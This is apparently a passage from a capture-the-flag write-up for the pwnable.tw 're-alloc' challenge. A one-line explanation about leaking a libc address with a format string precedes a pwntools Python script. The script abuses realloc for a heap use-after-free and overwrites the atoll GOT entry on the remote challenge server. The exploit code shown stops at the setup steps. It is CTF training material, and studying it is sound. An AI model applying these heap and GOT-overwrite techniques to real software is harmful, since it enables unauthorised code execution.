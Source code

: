 Use format string to get the _IO_2_1_stdout_ address. Because the atoll replaced by printf, so you can input "%{you_size}c" instead.

###### Exploit

```py
from pwn import *

exe = ELF("./re-alloc_patched")
libc = ELF("./libc-9bb401974abeef59efcdd0ae35c5fc0ce63d3e7b.so")
ld = ELF("./ld-2.29.so")

context.binary = exe
context.log_level = "debug"



def conn():
    if args.LOCAL:
        r = process([exe.path])
        # r = gdb.debug ([exe.path], "b *main")
    else:
        r = remote("chall.pwnable.tw", 10106)

    return r

def allocate (p, idx, size, data):
    p.sendlineafter (b': ', b'1')
    p.sendafter (b':', idx)
    p.sendafter (b':', size)
    p.sendafter (b':', data)

def re_allocate (p, idx, size, data):
    p.sendlineafter (b': ', b'2')
    p.sendafter (b':', idx)
    p.sendafter (b':', size)
    if size != b'0':
        p.sendafter (b':', data)

def rfree (p, idx):
    p.sendlineafter (b': ', b'3')
    p.sendafter (b':', idx)

def main():
    p = conn()

    allocate (p, b'0', b'30', b'ndd')
    re_allocate (p, b'0', b'0', b'abcd')
    re_allocate (p, b'0', b'30', p64(exe.got['atoll']) + b'A' * 8)

    # reset 
    allocate (p, b'1', b'30', b'ndd')
    re_allocate (p, b'1', b'50', b'ndd')
    rfree (p, b'1')
    re_allocate (p, b'0', b'50', b'A' * 16)
    rfree (p, b'0')


    # reset for later exploit
    allocate (p, b'0', b'20', b'ndd')
    re_allocate (p, b'0', b'0', b'abcd')
    re_allocate (p, b'0', b'20', p64 (exe.got['atoll']))
    allocate (p, b'1', b'20', b'asdkfj')
    re_allocate (p, b'1', b'50', b'ndd')
```